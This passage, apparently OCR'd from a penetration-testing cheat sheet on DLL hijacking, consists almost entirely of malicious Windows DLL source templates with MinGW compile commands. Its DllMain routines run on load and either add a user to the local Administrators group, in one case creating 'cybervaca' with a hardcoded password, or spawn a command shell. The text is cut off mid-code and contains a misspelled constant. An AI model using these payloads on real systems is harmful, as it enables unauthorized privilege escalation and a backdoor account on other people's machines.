 ```c
break;
case DLL_THREAD_ATTACH:
break;
case DLL_THREAD_DETACH:
break;
}
return TRUE;
}
```

```c
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
if (dwReason == DLL_PROCESS_ATTACH){
system("cmd.exe /k net localgroup administrators user /add");
ExitProcess(0);
}
return TRUE;
}
```

```c
//x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
//x86_64-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a

#include <windows.h>

int owned()
{
WinExec("cmd.exe /c net user cybervaca Password01 ; net localgroup administrators cybervaca /add", 0);
exit(0);
return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
owned();
return 0;
}
```

```c
//Another possible DLL
// i686-w64-mingw32-gcc windows_dll.c -shared -lws2_32 -o output.dll

#include<windows.h>
#include<stdlib.h>
#include<stdio.h>

void Entry (){ //Default function that is executed when the DLL is loaded
system("cmd");
}

BOOL APIENTRY DllMain (HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
switch (ul_reason_for_call){
case DLL_PROCESS_ATTACH:
CreateThread(0,0, (LPTHREAD_START_ROUTINE)Entry,0,0,0);
break;
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DEATCH:
```